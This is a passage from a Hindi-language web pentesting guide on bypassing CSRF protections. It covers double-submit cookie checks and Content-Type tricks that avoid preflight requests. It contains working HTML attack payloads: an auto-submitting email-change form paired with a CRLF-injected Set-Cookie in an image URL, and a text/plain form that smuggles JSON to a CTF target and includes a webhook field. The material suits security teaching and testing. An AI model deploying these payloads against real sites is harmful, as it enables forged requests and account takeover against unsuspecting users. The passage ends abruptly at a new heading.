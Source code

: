 ### CSRF token is verified by a cookie

अनुप्रयोग CSRF सुरक्षा को टोकन को कुकी और अनुरोध पैरामीटर दोनों में डुप्लिकेट करके या एक CSRF कुकी सेट करके और यह सत्यापित करके लागू कर सकते हैं कि बैकएंड में भेजा गया टोकन कुकी के अनुरूप है। अनुप्रयोग अनुरोधों को मान्य करता है यह जांचकर कि क्या अनुरोध पैरामीटर में टोकन कुकी में मान के साथ मेल खाता है।

हालांकि, यदि वेबसाइट में ऐसे दोष हैं जो हमलावर को पीड़ित के ब्राउज़र में CSRF कुकी सेट करने की अनुमति देते हैं, जैसे कि CRLF कमजोरी, तो यह विधि CSRF हमलों के प्रति संवेदनशील है। हमलावर इस पर लाभ उठा सकते हैं एक धोखाधड़ी छवि लोड करके जो कुकी सेट करती है, इसके बाद CSRF हमले को शुरू करती है।

नीचे एक उदाहरण है कि एक हमला कैसे संरचित किया जा सकता है:
```html
<html>
<!-- CSRF Proof of Concept - generated by Burp Suite Professional -->
<body>
<script>history.pushState('', '', '/')</script>
<form action="https://example.com/my-account/change-email" method="POST">
<input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
<input type="hidden" name="csrf" value="tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" />
<input type="submit" value="Submit request" />
</form>
<img src="https://example.com/?search=term%0d%0aSet-Cookie:%20csrf=tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" onerror="document.forms[0].submit();"/>
</body>
</html>

```
{% hint style="info" %}
ध्यान दें कि यदि **csrf टोकन सत्र कुकी से संबंधित है तो यह हमला काम नहीं करेगा** क्योंकि आपको पीड़ित का सत्र सेट करना होगा, और इसलिए आप खुद पर हमला कर रहे होंगे।
{% endhint %}

### Content-Type परिवर्तन

[**इस**](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple\_requests) के अनुसार, **preflight** अनुरोधों से बचने के लिए **POST** विधि का उपयोग करते समय ये अनुमत Content-Type मान हैं:

* **`application/x-www-form-urlencoded`**
* **`multipart/form-data`**
* **`text/plain`**

हालांकि, ध्यान दें कि **सर्वर की लॉजिक भिन्न हो सकती है** जो **Content-Type** के उपयोग पर निर्भर करती है, इसलिए आपको उल्लेखित मानों और अन्य जैसे **`application/json`**_**,**_**`text/xml`**, **`application/xml`**_._ को आजमाना चाहिए।

उदाहरण ( [यहां](https://brycec.me/posts/corctf\_2021\_challenges) से) JSON डेटा को text/plain के रूप में भेजने का:
```html
<html>
<body>
<form id="form" method="post" action="https://phpme.be.ax/" enctype="text/plain">
<input name='{"garbageeeee":"' value='", "yep": "yep yep yep", "url": "https://webhook/"}'>
</form>
<script>
form.submit();
</script>
</body>
</html>
```
### JSON डेटा के लिए प्रीफ्लाइट अनुरोधों को बायपास करना

